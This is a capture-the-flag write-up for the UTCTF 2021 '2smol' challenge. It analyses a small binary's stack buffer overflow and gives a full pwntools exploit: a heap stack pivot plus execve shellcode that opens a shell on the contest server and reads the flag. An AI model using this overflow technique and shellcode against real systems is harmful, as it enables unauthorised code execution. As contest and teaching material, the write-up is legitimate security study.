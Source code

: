 ```yaml
---
layout: post
title: "[UTCTF 2021] 2smol"
author: Green-Avocado
---
```


# 2smol

## Challenge

I made this binary 2smol.

nc pwn.utctf.live 9998

by `hukc`

### Mitigations:

No RELRO, No Canary found, NX disabled, No PIE

### Functions:

```asm
[0x00401000]> afl
0x00401000    1 13           entry0
0x0040100d    1 22           main
0x00401023    1 33           loc._read
```

#### Disassembled main:

```asm
[0x00401000]> pdf @ main
            ; CALL XREF from entry0 @ 0x401000
┌ 22: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_8h @ rbp-0x8
│           0x0040100d      55             push rbp
│           0x0040100e      4889e5         mov rbp, rsp
│           0x00401011      4883ec08       sub rsp, 8
│           0x00401015      488d7df8       lea rdi, [var_8h]           ; int64_t arg1
│           0x00401019      e805000000     call loc._read
│           0x0040101e      4889ec         mov rsp, rbp
│           0x00401021      5d             pop rbp
└           0x00401022      c3             ret
```

The `main` function calls `loc._read` and passes a pointer to `$rbp-0x8`, then returns.

#### Disassembled read:

```asm
[0x00401000]> pdf @ loc._read
            ; CALL XREF from main @ 0x401019
┌ 33: loc._read (int64_t arg1);
│           ; arg int64_t arg1 @ rdi
│           0x00401023      55             push rbp
│           0x00401024      4889e5         mov rbp, rsp
│           0x00401027      4883ec08       sub rsp, 8
│           0x0040102b      4889fe         mov rsi, rdi                ; arg1
│           0x0040102e      bf00000000     mov edi, 0
│           0x00401033      ba00020000     mov edx, 0x200              ; 512
│           0x00401038      b800000000     mov eax, 0
│           0x0040103d      0f05           syscall
│           0x0040103f      4889ec         mov rsp, rbp
│           0x00401042      5d             pop rbp
└           0x00401043      c3             ret
```

The `loc._read` function executes a syscall, `read(0, *buf, 0x200)`, where `*buf` is the pointer to a local variable in main.
As this will read more characters than the buffer size, we can overwrite the stored `$rbp` and `$rsp`, and 0x190 bytes after that.

## Solution

As NX is disabled, we can write and execute arbitrary code to memory.

I used code from [shellstorm](http://shell-storm.org/shellcode/files/shellcode-806.php).

```asm
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/user/Documents/ctf/2smol/smol
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/user/Documents/ctf/2smol/smol
0x0000000000402000 0x0000000000403000 0x0000000000000000 rw- [heap]
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
```

Both the heap and stack should have `rwx` permissions.
My machine prevents this, but this has been disabled to test the exploit.
Stack addresses are randomized at runtime, however the heap is not.
We can shift the location of our callstack onto the heap to write and execute our shellcode.

On the first read, we fill the buffer with 0x8 bytes, then we overwrite the saved `$rbp` with a location on the heap, and we overwrite the return address to point at the instruction before `loc._read` is called.
This allows us to call read again and write our shellcode to the heap.

On the second read, we fill the buffer, base pointer, and return address with anything.
Then we overwrite the return address to point the location our shell code will be place, followed by our shellcode.

Sending these payloads to the server gives us a shell where we can find and read the flag file.

## Exploit

```py
#!/usr/bin/env python3

from pwn import *

#p = process("./smol")
p = remote('pwn.utctf.live', 9998)

shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

main = 0x0040100d
stack = 0x402500

context.terminal = ['tmux', 'splitw', '-h']

#gdb.attach(p, '''
#b*0x40101e
#''')

payload1 = b''
payload1 += b'A' * 0x8 #padding
payload1 += p64(stack) #rbp
payload1 += p64(main + 8) #rip
payload1 += b'B' * (0x200 - 0x8 * 3)

payload2 = b''
payload2 += b'C' * 0x8 #padding
payload2 += b'D' * 0x8 #rbp
payload2 += p64(stack+0x10) #rip
payload2 += shellcode

p.send(payload1)
p.send(payload2)

p.interactive()
```

```
-> % ./exploit.py                     
[+] Opening connection to pwn.utctf.live on port 9998: Done
[*] Switching to interactive mode
$ whoami
srop
$ ls
flag.txt
$ cat flag.txt
utflag{srop_xd}
```

